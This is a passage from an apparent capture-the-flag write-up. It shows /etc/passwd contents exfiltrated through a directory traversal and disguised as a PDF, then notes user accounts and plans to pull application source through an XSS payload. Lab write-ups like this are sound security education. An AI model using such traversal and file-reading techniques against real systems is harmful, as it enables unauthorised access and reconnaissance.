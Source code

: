 

It's not a PDF, but `/etc/passwd`:


    oxdf@hacky$ cat exfil/Unknown.pdf 
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
    systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
    systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
    messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
    syslog:x:104:110::/home/syslog:/usr/sbin/nologin
    _apt:x:105:65534::/nonexistent:/usr/sbin/nologin
    tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
    uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
    tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
    landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
    pollinate:x:110:1::/var/cache/pollinate:/bin/false
    usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
    sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
    systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
    lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
    frank:x:1001:1001:,,,:/home/frank:/bin/bash
    neil:x:1002:1002:,,,:/home/neil:/bin/bash
    mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
    fwupd-refresh:x:114:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
    _laurel:x:997:997::/var/log/laurel:/bin/false
    james:x:1000:1000:,,,:/home/james:/bin/bash


In addition to a proof that the directory traversal works, I'll also
note the usernames frank, neil, and james.

#### Enumerate File System

I'll try to pull the source code for this application. I know it's
Express, so the main function is likely in an `index.js`. It's not in
the current directory, but it returns the source with the XSS payload
updated with:
